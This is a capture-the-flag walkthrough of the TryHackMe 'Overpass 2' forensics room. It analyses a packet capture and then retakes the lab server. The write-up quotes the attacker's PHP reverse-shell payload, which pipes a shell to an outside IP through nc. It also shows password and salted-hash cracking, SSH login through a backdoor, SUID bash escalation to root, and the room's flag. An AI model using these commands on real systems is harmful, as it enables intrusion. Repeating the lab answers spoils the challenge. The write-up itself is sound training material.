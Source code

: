 
- - - 
created : 18-07-2025 

Tags : #easy #Forensics
- - - 
# Objective

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into [[Overpass]] production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic [[Wireshark]] and completing [Linux Fundamentals](https://tryhackme.com/module/linux-fundamentals) as a bare minimum.  

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

# Recon

## WireShark

First we look into the download and we have a [[Wireshark]] capture file :

![[Pasted image 20250718204403.png]]

So we have a payload and the URL .

We can also see the [[Payload]] :

![[Pasted image 20250718205213.png]]

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

We can find the password used for escalation by searching for the string 'passw' :

![[Pasted image 20250718210221.png]]

![[Pasted image 20250718210608.png]]

A [[Persistence]] attempt :

![[Pasted image 20250718210844.png]]

We can find all the password retrieved by the attacker :

![[Pasted image 20250718211408.png]]

## John The Ripper

Now we can crack all the passwords with [[JohnTheRipper]] and see how many we got with the fasttrack.txt wordlist :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ john passwd /usr/share/wordlists/fasttrack.txt 
Warning: only loading hashes of type "sha512crypt", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst

secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```

So we have 4 .

## Backdoor Analysis

We can now analyze the [[Backdoor]] used as [[Payload]], to do that we are going to actually download it and read it, we can find the [[Hash]] of the [[Backdoor]] :

![[Pasted image 20250718212952.png]]

In order to find the hardcoded salt we are going to have to analyze the source code. We are able to do this on the GitHub website. The piece that we are specifically looking for is going to be in the main.go portion of code :

![[Pasted image 20250718213115.png]]ù

We saw previously that the attacker used a custom hash :

![[Pasted image 20250718213837.png]] :

The salt (remember that the salt is hardcoded) is appended to the password, and [[SHA512]] of the resulting string makes the hash. To summarize, we have :
```
 SHA512(password + '1c362db832f3f864c8c2fe05f2002a05') = '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed'
```

Now, let’s crack it with [[Hashcat]] (we’ll use the mode `1710`, which corresponds to `sha512($pass.$salt)`):

```
$ hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Sun Aug 16 18:44:00 2020 (2 secs)
Time.Estimated...: Sun Aug 16 18:44:02 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   149.3 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika
```

# Hacking

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There’s flags on the box that Overpass can’t afford to lose by formatting the server!

## Website 

So the port 80 is showing this message :

![[Pasted image 20250718214928.png]]

## SSH

We can access [[SSH]] with james and the cracked password on port 2222 (see payload) :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Overpass2]
└─$ ssh james@10.10.173.247 -p 2222         
The authenticity of host '10.10.173.247 (10.10.173.247)' can't be established.
ED25519 key fingerprint is SHA256:M+alDmfQ9SPk8CLKIRe6QQD9sNcr/ptoDNbQLZDzIqs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.173.247' (ED25519) to the list of known hosts.
root@10.10.173.247's password: 
```

tried the **password** retrieved from cracking the **SHA-512 hash** earlier with [[Hashcat]]. This failed for port 22 but worked for port 2222, now we cat the user flag :

```
root@ip-10-10-50-126:~# ssh james@10.10.53.38 -p 2222
The authenticity of host '[10.10.53.38]:2222 ([10.10.53.38]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.53.38]:2222' (RSA) to the list of known hosts.
james@10.10.53.38's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@overpass-production:/home/james/ssh-backdoor$ 
```
# Privilege Escalation

In the directory of current logged user have **[.suid_bash](https://gtfobins.github.io/gtfobins/bash/#suid)** :

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

We got root and readed the txt file

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
```

Pwned !!